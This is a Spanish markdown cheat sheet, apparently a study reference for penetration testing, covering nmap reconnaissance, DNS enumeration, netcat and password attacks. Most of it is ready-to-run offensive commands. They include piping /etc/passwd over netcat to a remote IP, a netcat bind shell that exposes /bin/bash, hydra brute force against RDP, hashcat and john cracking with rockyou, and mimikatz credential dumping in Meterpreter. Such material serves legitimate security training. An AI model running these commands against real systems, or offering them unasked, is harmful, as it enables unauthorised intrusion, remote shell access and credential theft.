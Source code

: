 # Cheatsheet Avanzada: Recolección de Información y Ataques a Contraseñas


## 🕵️ Recolección de Información (Enumeración)

### `nmap` (Network Mapper)

La herramienta fundamental para el escaneo de redes, servicios y vulnerabilidades.

#### Escaneos Básicos y de Descubrimiento

**Sondeo de puertos TCP comunes en un objetivo**
    * Escanea los 1000 puertos más habituales. La opción `-v` activa el modo *verbose* para más detalles.
    ```bash
    nmap -v scanme.nmap.org
    ```
    
**Sondeo "sigiloso" (Stealth Scan) con detección de SO en una subred**
    * `-sS`: Envía paquetes SYN en lugar de completar la conexión TCP, siendo menos detectable.
    * `-O`: Intenta identificar el sistema operativo del host.
    ```bash
    nmap -sS -O scanme.nmap.org/24
    ```

**Desactivar el sondeo previo (Ping Scan)**
    * `-Pn` (o `-P0` en versiones antiguas): Escanea el objetivo asumiendo que está activo, saltándose el descubrimiento de host. Útil si el objetivo bloquea los pings ICMP.
    ```bash
    # Sondea el puerto 80 en 100.000 hosts aleatorios sin enviar ping previo
    nmap -v -iR 100000 -Pn -p 80
    ```

#### Escaneos Avanzados y Específicos

* **Detección de Versión de Servicios**
    * `-sV`: Intenta determinar la versión exacta del software que corre en cada puerto abierto.
    ```bash
    # Detecta versiones de servicios en puertos específicos de una red
    nmap -sV -p 22,53,110,143,4564 198.116.0-255.1-127
    ```

* **Escaneo Agresivo (`-A`)**
    * Es un atajo que activa la detección de SO (`-O`), detección de versión (`-sV`), escaneo de scripts (`-sC`) y traceroute. Muy completo pero también muy "ruidoso".
    ```bash
    nmap -A mi-objetivo.com
    ```

* **Escaneo de Todos los Puertos (`-p-`) y guardado de resultados**
    * `-p-`: Escanea los 65535 puertos TCP.
    * `-oA`: Guarda los resultados en todos los formatos (normal, XML y grepable).
    ```bash
    nmap -sS -sV -p- -oA escaneo_completo mi-objetivo.com
    ```

#### Uso de Scripts (Nmap Scripting Engine - NSE)

* **Ejecutar scripts por defecto (`-sC`)**
    * Lanza un conjunto de scripts considerados seguros y útiles para la enumeración.
    ```bash
    nmap -sC scanme.nmap.org
    ```

* **Enumerar recursos compartidos SMB en un host Windows**
    * Busca carpetas y recursos compartidos a través del protocolo SMB.
    ```bash
    nmap -p 445 --script smb-enum-shares 192.168.10.150
    ```

* **Enumerar cifrados y certificado de un servidor HTTPS**
    * Muestra qué versiones de TLS/SSL y qué suites de cifrado soporta el servidor. También extrae el certificado.
    ```bash
    # Ver suites de cifrado
    nmap --script ssl-enum-ciphers -p 443 www.google.es

    # Ver el certificado
    nmap --script ssl-cert -p 443 www.google.es
    ```

### Consultas DNS

* **`dnsenum`**: Extrae información detallada de los servidores DNS.
    ```bash
    # Búsqueda exhaustiva usando scraping en buscadores
    dnsenum --enum ceu.es
    ```

* **`dnsrecon`**: Búsqueda de subdominios por fuerza bruta usando un diccionario.
    ```bash
    dnsrecon -d ceu.es -D /usr/share/wordlists/dnsmap.txt -t std
    ```

### `Netcat (nc)` - La Navaja Suiza de Redes

* **Banner Grabbing**: Conectarse a un puerto para ver el "banner" o mensaje de bienvenida del servicio, que a menudo revela su versión.
    ```bash
    echo "QUIT" | nc -v [www.ejemplo.com](https://www.ejemplo.com) 21
    ```

* **Transferencia de ficheros**: Crear un túnel simple para enviar o recibir ficheros.
    ```bash
    # En la máquina receptora (se pone a la escucha en el puerto 777)
    nc -lvp 777 > archivo_recibido.txt

    # En la máquina emisora (envía el fichero /etc/passwd)
    cat /etc/passwd | nc 192.168.1.10 777
    ```

* **Crear un *Bind Shell***: Deja un puerto a la escucha en la máquina víctima, esperando una conexión entrante que le dará una shell.
    ```bash
    # En la máquina víctima
    nc -lvp 4444 -e /bin/bash

    # En la máquina del atacante
    nc 192.168.1.20 4444
    ```

---

## 🔑 Ataques a Contraseñas

Una vez se identifican servicios con autenticación, se puede intentar comprometer sus credenciales.

### Ataques Offline (sobre Hashes)

Estos ataques se realizan sobre hashes de contraseñas previamente obtenidos (ej. de una base de datos filtrada).

**`hash-identifier`**: Identifica el posible algoritmo de un hash desconocido.
    ```bash
    hash-identifier <pega_el_hash_aqui>
    ```
**`john the ripper`**: Un cracker de hashes muy versátil.
    ```bash
    # Intenta crackear un fichero de hashes usando el modo por defecto
    john /ruta/a/hashes.txt

    # Especifica un diccionario para el ataque
    john --wordlist=/usr/share/wordlists/rockyou.txt /ruta/a/hashes.txt
    ```

**`hashcat`**: Cracker de hashes extremadamente rápido que puede usar la potencia de la GPU.
    ```bash
    # Ataca un hash MD5 (-m 0) con un ataque de diccionario (-a 0)
    hashcat -m 0 -a 0 /ruta/hashes.txt /usr/share/wordlists/rockyou.txt

    # Muestra las contraseñas ya crackeadas para ese fichero de hashes
    hashcat -m 0 /ruta/hashes.txt --show
    ```

### Ataques Online (sobre Servicios Activos)

Estos ataques interactúan directamente con un servicio de red (SSH, FTP, RDP, etc.).

**`hydra`**: Un "login cracker" online muy rápido y que soporta multitud de protocolos.

    
    # Ataque de diccionario a un servidor RDP
    # -l: usuario -P: fichero de contraseñas -t: hilos en paralelo -f: parar al encontrarla
    hydra -l Administrador -P rockyou.txt rdp://10.60.25.19 -t 6 -V -f

**`nmap` con Scripts (NSE)**: `nmap` también puede realizar ataques de fuerza bruta.

    # Intenta un ataque de fuerza bruta sobre un servidor FTP
    nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=pass.txt 192.168.1.30
    

### Herramientas Adicionales

**`crunch`**: Generador de diccionarios (wordlists) personalizados

    # Crea un diccionario con todas las combinaciones numéricas de 4 a 6 dígitos
    crunch 4 6 0123456789 -o diccionario_numerico.txt
    

**`mimikatz`**: Herramienta de post-explotación para Windows extremadamente potente. Su función más famosa es extraer contraseñas en texto plano de la memoria del proceso LSASS. [cite: 4979]
    
    # (Uso típico dentro de una sesión de Meterpreter en una máquina comprometida)
    meterpreter > load kiwi
    meterpreter > creds_all
    

